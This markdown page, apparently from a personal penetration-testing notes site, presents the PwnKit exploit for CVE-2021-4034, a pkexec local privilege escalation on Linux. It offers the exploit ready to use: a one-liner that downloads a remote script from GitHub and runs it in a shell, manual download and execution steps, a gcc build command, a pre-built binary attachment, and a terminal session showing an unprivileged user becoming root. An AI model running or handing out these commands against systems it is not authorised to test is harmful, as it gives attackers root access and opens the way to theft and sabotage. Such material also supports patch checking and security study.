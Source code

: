 ```yaml
---
title : "CVE-2021-4034"
# pre : ' '
description : "Pkexec Local Privilege Escalation."
date : 2022-03-03T11:13:34+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2021-4034 - Pkexec Local Privilege Escalation

Self-contained exploit for CVE-2021-4034 - Pkexec Local Privilege Escalation

## Usage

Should work out of the box on vulnerable Linux distributions based on Ubuntu, Debian, Fedora, and CentOS.

```plain
sh -c "$(curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"
```

![example](images/oneliner.png)

### Manually

```plain
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
chmod +x ./PwnKit
./PwnKit # interactive shell
./PwnKit 'id' # single command
```

![example](images/exploit.png)

### Patched

Running the exploit against patched versions will yield the following output.

![example](images/patched.png)

### Building Pwnkit

```plain
gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
```

Pre-built below:

{{%attachments title="Related files" fa_icon_class="far fa-file-pdf" pattern="PwnKit"/%}}

## Examples

```plain
unpriv_user@host:~$ id
uid=1338(unpriv_user) gid=1338(unpriv_user) groups=1338(unpriv_user)
unpriv_user@host:~$ ./PwnKit 
root@host:~# id
uid=0(root) gid=0(root) groups=0(root),1338(unpriv_user)
```

## URL List

* [Github.com - Pwnkit](https://github.com/ly4k/PwnKit)
* [Github.com - CVE-2021-4034](https://github.com/arthepsy/CVE-2021-4034/)
* [Blog.qualys.com - PwnKit: Local Privilege Escalation Vulnerability Discovered in polkit’s pkexec (CVE-2021-4034)](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034)
